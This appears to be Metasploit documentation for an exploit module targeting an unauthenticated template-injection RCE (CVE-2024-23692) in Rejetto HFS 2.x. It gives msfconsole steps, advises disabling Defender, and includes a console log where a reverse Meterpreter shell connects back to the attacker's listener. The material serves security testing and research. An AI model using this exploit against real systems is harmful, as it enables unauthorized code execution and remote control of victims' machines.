 ## Vulnerable Application
The Rejetto HTTP File Server (HFS) version 2.x is vulnerable to a unauthenticated server side template
injection (SSTI) vulnerability. An remote unauthenticated attacker can execute code with the privileges
of the user account running the HFS.exe server process. This exploit has been tested to work against version
2.4.0 RC7 and 2.3m. The Rejetto HTTP File Server (HFS) version 2.x is no longer supported by the maintainers
and no patch is available. Users are recommended to upgrade to version 3.x.

## Testing
[Download](https://github.com/rejetto/hfs2/releases/download/v2.4-rc06/hfs.exe) a vulnerable version of HTTP
File Server (HFS). To run this server, simply execute the HFS.exe binary. By default the server will listen for
HTTP connections on port 80.

The exploit has been tested against versions:
* 2.4.0 RC7
* 2.3m

## Verification Steps
Note: On Windows, disable Defender if you are using the default payloads.

1. Start msfconsole
2. `use exploit/windows/http/rejetto_hfs_rce_cve_2024_23692`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set payload cmd/windows/http/x64/meterpreter_reverse_http`
5. `set LHOST eth0`
6. `set LPORT 4444`
7. `check`
8. `exploit`

## Scenarios

### Automatic

```
msf > use exploit/windows/http/rejetto_hfs_rce_cve_2024_23692
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
msf exploit(windows/http/rejetto_hfs_rce_cve_2024_23692) > set RHOSTS 192.168.86.35
RHOSTS => 192.168.86.35
msf exploit(windows/http/rejetto_hfs_rce_cve_2024_23692) > set payload cmd/windows/http/x64/meterpreter_reverse_http
payload => cmd/windows/http/x64/meterpreter_reverse_http
msf exploit(windows/http/rejetto_hfs_rce_cve_2024_23692) > set LHOST eth0
LHOST => eth0
msf exploit(windows/http/rejetto_hfs_rce_cve_2024_23692) > set LPORT 4444
LPORT => 4444
msf exploit(windows/http/rejetto_hfs_rce_cve_2024_23692) > show options

Module options (exploit/windows/http/rejetto_hfs_rce_cve_2024_23692):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.86.35    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI                   yes       The base path to the web application
   VHOST                       no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter_reverse_http):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   EXTENSIONS                           no        Comma-separate list of extensions to load
   EXTINIT                              no        Initialization strings for extensions
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      gnwWBKQz         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               eth0             yes       The local listener hostname
   LPORT               4444             yes       The local listener port
   LURI                                 no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf exploit(windows/http/rejetto_hfs_rce_cve_2024_23692) > check
[+] 192.168.86.35:80 - The target is vulnerable. Rejetto HFS version 2.4.0 RC7
msf exploit(windows/http/rejetto_hfs_rce_cve_2024_23692) > exploit 

[*] Started HTTP reverse handler on http://192.168.86.42:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Rejetto HFS version 2.4.0 RC7
[!] http://192.168.86.42:4444 handling request from 192.168.86.35; (UUID: ykybl99e) Without a database connected that payload UUID tracking will not work!
[*] http://192.168.86.42:4444 handling request from 192.168.86.35; (UUID: ykybl99e) Redirecting stageless connection from /pBzS1uPGeqRa91v1PJaNDwwtxXK-KTpGms8g with UA 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0'
[!] http://192.168.86.42:4444 handling request from 192.168.86.35; (UUID: ykybl99e) Without a database connected that payload UUID tracking will not work!
[*] http://192.168.86.42:4444 handling request from 192.168.86.35; (UUID: ykybl99e) Attaching orphaned/stageless session...
[!] http://192.168.86.42:4444 handling request from 192.168.86.35; (UUID: ykybl99e) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.35:31348) at 2024-06-06 16:38:33 +0100

meterpreter > getuid
Server username: testing-vm\user
meterpreter > sysinfo
Computer        : TESTING-VM
OS              : Windows 11 (10.0 Build 22631).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
